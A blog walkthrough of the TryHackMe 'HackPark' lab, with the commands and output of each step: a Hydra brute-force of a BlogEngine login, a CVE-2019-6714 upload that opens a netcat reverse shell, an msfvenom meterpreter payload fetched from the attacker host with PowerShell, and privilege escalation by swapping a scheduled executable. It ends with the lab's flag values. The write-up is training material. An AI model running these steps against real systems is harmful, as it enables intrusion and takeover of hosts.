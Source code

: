 ```yaml
---
layout: post
title: THM — HackPark
date: 2022-09-29 00:00:00 -500
categories: [TryHackMe]
tags: [Hydra, winPEAS, Windows, RCE]
---
```


<img src="/assets/images/HackPark/logo.png" alt="HackPark Logo" width="30%">

***
<center><strong><font color="White">Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

After deploying the machine we can run basic nmap scan for open ports & services on the target machine.

```console
vladislav@Mac ~ % nmap -sV 10.10.205.86
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-28 23:06 MSK
Nmap scan report for 10.10.205.86
Host is up (0.068s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.41 seconds
```

We can see that there is an HTTP service on port 80, then we open `10.10.205.86:80` in browser.

There we are interested in the login page. Inspecting the login form we can find out that it's using POST request type.

<img src="/assets/images/HackPark/1.png" alt="Inspecting the site" width="70%">

Moreover, the url of the login page is the following: `http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/`.

***

## <strong><font color="#34A5DA">Using Hydra for brute-forcing the login</font></strong>

Now we know the URL, request type and probably the login name, so we can start brute-force with Hydra.

However, first we need to intercept the POST request using Burp Suite.

```http
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.205.86
Content-Length: 578
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.205.86
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=user&ctl00%24MainContent%24LoginUser%24Password=pass&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8
```

Now we can use Hydra for cracking the password.

> [Good notes on hydra](https://github.com/gnebbia/hydra_notes)

We set username with `-l admin`, password list with `-P /share/wordlists/rockyou.txt`, target machine IP, HTTP form and "request string".

Request string contains of three elements separated by `:`:

* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with `^USER^` and `^PASS^` where usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt

So in our case request string contains:

* `/Account/login.aspx?ReturnURL=/admin/` from the URL
* "`__VIEWSTATE`". There we should change two things: `UserNameuser` to `UserName=^USER^` and `Password=pass` to `Password=^PASS^`
* S=Success.

Here's the final hydra payload:

```bash
hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
```

```console
vladislav@Mac ~ % hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-29 00:06:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.80.203:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed
[STATUS] 995.00 tries/min, 995 tries in 00:01h, 14343406 to do in 240:16h, 16 active
[80][http-post-form] host: 10.10.80.203   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-29 00:08:15
```

So, the password is `1qaz2wsx`.

***

## <strong><font color="#34A5DA">Compromizing the machine</font></strong>

After logging into admin account we can find the blogengine version: `3.3.6.0`.

![BlogEngine About page](/assets/images/HackPark/2.png)

Searching on exploit-db, we can find the [vulnerability](https://www.exploit-db.com/exploits/46353). CVE-2019-6714. Download the script.

Firstly, we need to modify the script by changing the IP and Port of TCP connection.

Secondly, we need to rename the script:

```bash
mv 46353 PostView.ascx
```

Thirdly, we setup a reverse TCP listener. We can do this using netcat.

```console
vladislav@Mac ~ % netcat -nlvp 4445
```

After that we should upload the script using blogengine control panel:
1. Switch to *Dashboard*
2. Go to "*Published Posts*"
3. Go to "*Welcome to HackPark*"
4. In the text editor press the button "*File Manager*" and upload the PostView.ascx

Finally, go to `http://10.10.29.8:80?theme=../../App_Data/files`. If everything done right, we recieve the connection.

```console
vladislav@Mac Downloads % netcat -nlvp 4445
Connection from 10.10.29.8:49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

***

## <strong><font color="#34A5DA">Windows Privilege Escalation</font></strong>

According to the next task we need to generate another reverse shell using msfvenom.

First, we need to generate the executable with msfvenom. Use another port!

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.7.222 LPORT=4446 -f exe > rev_shell.exe

```

Next, start a simple HTTP server on your attack machine:
```bash
python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

On the reverse shell download the script:
```
powershell -c Invoke-WebRequest -uri "http://10.18.7.222:8000/rev_shell.exe" -outfile "C:\\Windows\temp\rev_shell.exe"
```

Next, we need to setup a Metasploit TCP Reverse Shell:

```console
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.7.222
msf6 exploit(multi/handler) > set LPORT 4446
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.18.7.222:4446 
```

Run the uploaded script on the target machine:
```console
cd \windows\temp
.\rev_shell.exe
```

If everything done right, we get the meterpreter reverse TCP session:
```console
[*] Started reverse TCP handler on 10.18.7.222:4446 
[*] Sending stage (175686 bytes) to 10.10.29.8
[*] Meterpreter session 1 opened (10.18.7.222:4446 -> 10.10.29.8:49264) at 2022-09-29 16:32:08 +0300

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Next, let's use WinPEAS — a script that search for possible paths to escalate privileges on Windows hosts:
```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

On the meterpreter session:
```console
meterpreter > upload winPEAS.bat c:\\windows\\temp
[*] uploading  : /Users/vladislav/winPEAS.bat -> c:\windows\temp
[*] uploaded   : /Users/vladislav/winPEAS.bat -> c:\windows\temp\winPEAS.bat
```

Run the script:
```console
c:\Windows\Temp>.\winPEAS.bat
.\winPEAS.bat

 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials

 [+] AppCmd
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd-exe
C:\Windows\system32\inetsrv\appcmd.exe exists. 

 [+] Files in registry that may contain credentials
   [i] Searching specific files that may contains credentials.
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys
C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
    
     ,/*,..*(((((((((((((((((((((((((((((((((,

   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    4.0

Transcriptions Settings:
Module logging settings:
Scriptblog logging settings:

PS default transcript history

Checking PS history file

 [+] MOUNTED DISKS
   [i] Maybe you find something interesting
Caption  
C:       



 [+] ENVIRONMENT
   [i] Interesting information?

ALLUSERSPROFILE=C:\ProgramData
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=HACKPARK
ComSpec=C:\Windows\system32\cmd.exe
CurrentLine= 0x1B[33m[+]0x1B[97m ENVIRONMENT
E=0x1B[
FP_NO_HOST_CHECK=NO
long=false
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
Percentage=1
PercentageTrack=30
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files (x86)
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Windows\TEMP
TMP=C:\Windows\TEMP
USERDOMAIN=IIS APPPOOL
USERNAME=Blog
USERPROFILE=C:\Users\Default
windir=C:\Windows

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Amazon
Common Files
Common Files
Internet Explorer
Internet Explorer
Microsoft.NET
SystemScheduler
Windows Mail
Windows Mail
Windows NT
Windows NT
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\

Looking inside HKCU\Software\OpenSSH\Agent\Keys





C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
 [+] Remote Desktop Credentials Manager
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager


Looking inside \Microsoft\Credentials\


 [+] Unattended files

 [+] SAM and SYSTEM backups

 [+] McAffee SiteList.xml
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials
```

However, it doesn't give us some useful information.

```console
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]
 4     0     System
 68    680   svchost.exe
 368   4     smss.exe
 488   2084  findstr.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\findstr.exe
 524   516   csrss.exe
 580   572   csrss.exe
 588   516   wininit.exe
 616   572   winlogon.exe
 680   588   services.exe
 688   588   lsass.exe
 748   680   svchost.exe
 756   2560  rev_shell.exe         x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\rev_shell.exe
 792   680   svchost.exe
 868   680   svchost.exe
 884   680   svchost.exe
 888   616   dwm.exe
 912   680   svchost.exe
 964   680   svchost.exe
 1108  680   svchost.exe
 1136  680   spoolsv.exe
 1168  680   amazon-ssm-agent.exe
 1244  680   svchost.exe
 1264  680   LiteAgent.exe
 1364  680   svchost.exe
 1380  680   svchost.exe
 1408  680   WService.exe
 1456  2560  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1544  1408  WScheduler.exe
 1640  680   Ec2Config.exe
 1732  748   WmiPrvSE.exe
 1836  2084  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 1876  2084  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2084  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2088  2484  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2092  2488  Message.exe
 2428  680   msdtc.exe
 2484  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2488  2188  WScheduler.exe
 2504  912   taskhostex.exe
 2560  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2580  2572  explorer.exe
 2676  748   WmiPrvSE.exe
 2792  1380  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 3032  2528  ServerManager.exe
```

Here we can see two interesting processes: WService.exe and WScheduler.exe. Let's take a look at scheduler:

```
meterpreter > cd "Program Files (x86)"
meterpreter > cd SystemScheduler
meterpreter > cd Events
```

Here we can see a file called `20198415519.INI_LOG.txt`. It contains the following information:
```
...
09/29/22 07:10:05,Event Started Ok, (Administrator)
09/29/22 07:10:38,Process Ended. PID:2224,ExitCode:4,Message.exe (Administrator)
09/29/22 07:11:03,Event Started Ok, (Administrator)
09/29/22 07:11:35,Process Ended. PID:2092,ExitCode:4,Message.exe (Administrator)
09/29/22 07:12:05,Event Started Ok, (Administrator)
09/29/22 07:12:35,Process Ended. PID:2896,ExitCode:4,Message.exe (Administrator)
09/29/22 07:13:03,Event Started Ok, (Administrator)
09/29/22 07:13:34,Process Ended. PID:1964,ExitCode:4,Message.exe (Administrator)
09/29/22 07:14:03,Event Started Ok, (Administrator)
09/29/22 07:14:33,Process Ended. PID:2588,ExitCode:4,Message.exe (Administrator)
09/29/22 07:15:01,Event Started Ok, (Administrator)
09/29/22 07:15:33,Process Ended. PID:2212,ExitCode:4,Message.exe (Administrator)
09/29/22 07:16:01,Event Started Ok, (Administrator)
09/29/22 07:16:34,Process Ended. PID:2752,ExitCode:4,Message.exe (Administrator)
09/29/22 07:17:02,Event Started Ok, (Administrator)
...
```

As we can see, Windows Scheduler starts `Message.exe` every 30 seconds.

And fortunately we have all permissions for this file:
```
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100777/rwxrwxrwx  536992   fil   2018-03-25 20:58:56 +0300  Message.exe
...
```

Change the original `Message.exe` to our `rev_shell.exe`:

```
meterpreter > mv /windows/temp/rev_shell.exe "c:\Program Files (x86)\SystemScheduler\rev_shell.exe"
meterpreter > mv Message.exe Message.f
meterpreter > mv rev_shell.exe Message.exe
```

Reload reverse TCP handler. And finally we get Administrator's privileges:

```console
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Now we can find user.txt on Jeff's Desktop containing: `759bd8af507517bcfaede78a21a73e39`.

Also, the root flag on Administrator's Desktop which contains: `7e13d97f05f7ceb9881a3eb3d78d3e72`.